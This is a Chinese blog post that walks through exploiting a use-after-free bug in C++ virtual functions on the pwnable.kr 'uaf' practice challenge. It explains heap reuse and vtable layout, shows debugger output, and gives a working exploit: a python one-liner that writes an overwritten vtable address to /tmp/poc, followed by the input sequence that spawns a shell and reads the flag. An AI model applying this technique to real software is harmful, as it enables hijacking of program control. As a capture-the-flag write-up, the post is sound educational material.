 ```yaml
---
title: uaf漏洞(use after free)在虚函数中的利用
date: 2018-10-14 18:45:56
tags: 漏洞
---
```

<strong><h1>漏洞原理</h1></strong>
   当应用程序调用free()释放内存时，如果内存块小于256kb，dlmalloc并不马上将内存块释放回内存，而是将内存块标记为空闲状态。
这么做的原因有两个：一是内存块不一定能马上释放会内核（比如内存块不是位于堆顶端），二是供应用程序下次申请内存使用（这是
主要原因）。当dlmalloc中空闲内存量达到一定值时dlmalloc才将空闲内存释放会内核。如果应用程序申请的内存大于256kb，dlmalloc
调用mmap()向内核申请一块内存，返回返还给应用程序使用。如果应用程序释放的内存大于256kb，dlmalloc马上调用munmap()释放内存。
dlmalloc不会缓存大于256kb的内存块，因为这样的内存块太大了，最好不要长期占用这么大的内存资源。
也就是说当一个小的内存释放后 不会立马释放内核 去供给下次内存申请
详细介绍:https://www.cnblogs.com/alert123/p/4918041.html
<strong><h1>uaf在类虚函数中的使用</h1></strong>
要先了解一个类当创建虚函数时候 会自动创建一个虚函数表 该表存储该类的所有虚函数 当申请内存时候内存头部分会放这个虚函数表
```c++
class test
{
	private:
	int a;
	int b;
	public:
	virtual void play()
	{
		system("/bin/sh");
	}
	virtural void Rep()
	{
		printf("%s","you are good!");
	}
}
当申请内存的时候
  +------------+
  |     vptr   |
  +------------+
  |      a     |
  +------------+
  |      b     |
  +------------+
会头部分存虚函数指针存储虚函数表 也就是存储play函数和Rep函数的地址

当后面有类指针定义并且释放 然后再有相同类指针定义时会重新利用这个内存 
  +------------+
  |     vptr   |
  +------------+
  |      a     |
  +------------+
  |      b     |
  +------------+
  比如上图类的程序 当别人是让你调用Rep函数时 没想让你调用play函数 你可以通过
  修改vptr去修改vtale使调用函数指向play函数即可
 ```
 详细介绍:http://www.cnblogs.com/bizhu/archive/2012/09/25/2701691.html
 <strong><h1>实验演示</h1></strong>
 这是一道pwnable.kr上的简单uaf题 地址:http://pwnable.kr/play.php
![Image test](https://i.loli.net/2018/10/14/5bc32376168a8.png)
我们进行ssh连接后会发现有三个文件
```bash
uaf@ubuntu:~$ ls -lh
total 24K
-rw-r----- 1 root uaf_pwn   22 Sep 25  2015 flag
-r-xr-sr-x 1 root uaf_pwn  16K Sep 25  2015 uaf
-rw-r--r-- 1 root root    1.4K Sep 25  2015 uaf.cpp
```
会发现我们没有权限去看flag 那肯定就要是利用那个uaf了 我们先看下uaf.cpp
```c++
#include <fcntl.h>
#include <iostream> 
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
	virtual void give_shell(){
		system("/bin/sh");
	}
protected:
	int age;
	string name;
public:
	virtual void introduce(){
		cout << "My name is " << name << endl;
		cout << "I am " << age << " years old" << endl;
	}
};

class Man: public Human{
public:
	Man(string name, int age){
		this->name = name;
		this->age = age;
        }
        virtual void introduce(){
		Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
	Human* m = new Man("Jack", 25);
	Human* w = new Woman("Jill", 21);

	size_t len;
	char* data;
	unsigned int op;
	while(1){
		cout << "1. use\n2. after\n3. free\n";
		cin >> op;

		switch(op){
			case 1:
				m->introduce();
				w->introduce();
				break;
			case 2:
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout << "your data is allocated" << endl;
				break;
			case 3:
				delete m;
				delete w;
				break;
			default:
				break;
		}
	}

	return 0;	
}
```
会发现这里面有虚函数 并且有类指针的利用和释放 那我们就想办法把调用函数换了 我们看下case2
```c++
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout << "your data is allocated" << endl;
				break;
```
会发现传入两个 一个是argv[1]和argv[2] 申请一个argv[1]大小的对象 并且从argv[2]文件中读取argv[1]大小给它

我们先把文件拖入IDA看下
![Image text](https://i.loli.net/2018/10/14/5bc3252b7663e.png)
会看到申请的这个内存是18h也就是24字节大小 后面继续看看 会发现调用函数时到了这里
![Iamge test](https://i.loli.net/2018/10/14/5bc326c25dbbb.png)
跟进去看下
![Image text](https://i.loli.net/2018/10/14/5bc32729d65c6.png)
会发现里面存着两个虚函数函数地址 其中give_shell在前面 introduce在后面 那这个0x401570地址应该就是虚函数表地址了 再看看这个函数是怎么调用的
![Image text](https://i.loli.net/2018/10/14/5bc328045a642.png)
在最上面看见man对象构造时 头部分的v3应该就是虚函数指针 该指针赋给子代的v13 一个int指针8字节(64位) 最后面函数调用时 v13+8就是调用introduce
```bash
pwndbg> x/5a 0x401570
0x401570 <_ZTV3Man+16>:	0x40117a <_ZN5Human10give_shellEv>	0x4012d2 <_ZN3Man9introduceEv>
0x401580 <_ZTV5Human>:	0x0	0x4015f0 <_ZTI5Human>
0x401590 <_ZTV5Human+16>:	0x40117a <_ZN5Human10give_shellEv>
```
那当然我们是就可以想办法改introduce的地址 当调用introduce时候去调用give_shell 那么我们就可以去改vtable的地址使他的地址减8 那么
相当于v13-8 当调用introduce函数时候 也就是v13-8+8刚好是vtable的首地址也就是give_shell vtable的地址是401570-8=401568
```bash
uaf@ubuntu:~$ python -c "print '\x68\x15\x40\x00\x00\x00\x00\x00'" >/tmp/poc
```
把他写入tmp文件夹下 因为只有tmp文件夹可以运行
```bash
uaf@ubuntu:~$ python -c "print '\x68\x15\x40\x00\x00\x00\x00\x00'" >/tmp/poc
uaf@ubuntu:~$ ./uaf 24 /tmp/poc
1. use
2. after
3. free
3
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
Segmentation fault
uaf@ubuntu:~$ ./uaf 24 /tmp/poc
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ ls
flag  uaf  uaf.cpp
$ cat flag
yay_f1ag_aft3r_pwning
```
解释:运行3 2 2 1是因为堆的分配是按照最后被释放的先被利用 所有第一次2是为了去利用最后释放的w 第二次是m